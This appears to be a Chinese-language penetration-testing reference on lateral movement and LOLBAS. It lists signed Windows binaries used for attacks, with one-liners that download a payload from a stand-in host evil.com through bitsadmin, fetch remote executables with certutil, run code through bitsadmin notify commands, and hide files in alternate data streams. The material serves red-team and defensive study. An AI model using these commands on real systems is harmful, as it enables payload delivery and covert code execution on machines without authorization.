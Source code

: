 横向移动
========================================

常见入口
----------------------------------------
- SMB弱密码
- SqlServer弱密码

LOLBAS
----------------------------------------

简介
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
LOLBAS，全称Living Off The Land Binaries and Scripts (and also Libraries)，是一种白利用方式，是在2013年DerbyCon由Christopher Campbell和Matt Graeber发现，最终Philip Goh提出的概念。

这些程序一般有有Microsoft或第三方认证机构的签名，但是除了可以完成正常的功能，也能够被用于内网渗透中。这些程序可能会被用于：下载安全恶意程序、执行恶意代码、绕过UAC、绕过程序控制等。

常见程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- appsyncvpublishing.exe
    - 执行powershell
- bitsadmin.exe
    - 下载文件 ``bitsadmin /transfer <job_name> /priority <priority> <remote_path> <local_path>``
    - 下载文件 ``bitsadmin /create 1 bitsadmin /addfile 1 https://evil.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1``
    - 复制文件 ``bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /RESUME 1 & bitsadmin /Complete 1 & bitsadmin /reset``
    - 代码执行 ``bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset``
- cdb.exe
- certutil.exe
    - 可安装、备份、删除、管理和执行证书
    - 证书存储相关功能
    - 下载文件 ``certutil -urlcache -split -f https://addr/example.exe``
    - 注意 certutil 是有cache的，需要显式删除
    - base64 编解码 ``certutil -encode`` /  ``certutil -decode``
- cmd.exe
- cmstp.exe
- control.exe
    - `加载dll <https://www.dearbytes.com/blog/playing-around-with-nsa-hacking-tools/>`_
- csc.exe
    - 编译 C# 载荷
- cscript.exe
    - 执行脚本
- extexport.exe
- expand.exe
    - 展开一个或多个压缩文件
- forfiles.exe
    - ``forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe``
- mofcomp.exe
- makecab.exe
- msbuild.exe
    - 构建应用程序
- mshta.exe
    - HTML应用
- msiexec.exe
    - 安装msi
    - 加载dll
- msxsl.exe
    - 处理XSL程序
- netsh.exe
- installutil.exe
    - 安装/卸载程序组件
- IEExec.exe
    - .NET Framework附带程序
- powershell.exe
- psexec.exe
    - https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec
- reg.exe
    - 注册表控制台
- regedit.exe
    - 注册表修改
- regsvr32.exe
    - 注册动态链接库/ActiveX控件
- rundll32.exe
    - 执行DLL文件中的内部函数
- sc.exe
    - 查看服务状态管理
- schtasks.exe
    - 定时计划任务
- shred
    - 重复写入文件，防止文件恢复
- type.exe
    - 利用ads隐藏文件 ``type <filepath> <target_file:ads>``
- wmic.exe
    - Windows管理工具
- windbg.exe
- winrm.exe
- wscript.exe
    - 脚本引擎
- waitfor.exe
    - 用于同步网络中计算机，可以发送或等待系统上的信号。
